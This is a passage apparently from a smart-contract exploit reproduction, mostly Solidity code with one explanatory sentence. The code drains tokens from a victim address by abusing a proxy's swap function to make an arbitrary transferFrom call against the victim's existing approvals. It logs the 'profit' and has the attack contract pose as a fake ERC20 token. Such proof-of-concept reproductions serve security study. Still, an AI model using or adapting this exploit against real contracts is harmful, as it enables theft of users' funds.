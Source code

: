 ```solidity
        address(link),
        address(btcb),
        address(eth)
    ];

    for (uint i = 0; i < targetToken.length; i++) {
        _attack(targetToken[i]);
    }
}

function _attack(address targetToken) private {
    uint256 Balance = IERC20(targetToken).balanceOf(victim);
    uint256 Allowance = IERC20(targetToken).allowance(victim, address(minterproxy));
    uint256 amount = Balance < Allowance ? Balance : Allowance;
    if (amount == 0) {
        emit log_named_string("No allowed targetToken", IERC20(targetToken).name());
        return;
    }
    bytes memory transferFromData = abi.encodeWithSignature("transferFrom(address,address,uint256)", victim, address(this), amount);
    minterproxy.swap(address(this), 1, targetToken, address(this), address(this), 1, transferFromData, bytes(hex"00"));
    emit log_named_string("targetToken", IERC20(targetToken).name());
    emit log_named_decimal_uint("profit", IERC20(targetToken).balanceOf(address(this)), IERC20(targetToken).decimals());
}

function balanceOf(address /*account*/) external view returns (uint256) {
    return balance;
}

function transfer(address /*recipient*/, uint256 /*amount*/) external pure returns (bool) {
    return true;
}

function allowance(address /*_owner*/, address /*spender*/) external pure returns (uint256) {
    return type(uint256).max;
}

function approve(address /*spender*/, uint256 /*amount*/) external pure returns (bool) {
    return true;
}

function transferFrom(address /*sender*/, address /*recipient*/, uint256 amount) external returns (bool) {
    balance += amount;
    return true;
}
```

According to the logic of the original `swap` function, the attack contract itself also needs to act as a fake token, implementing the relevant ERC20 interfaces.

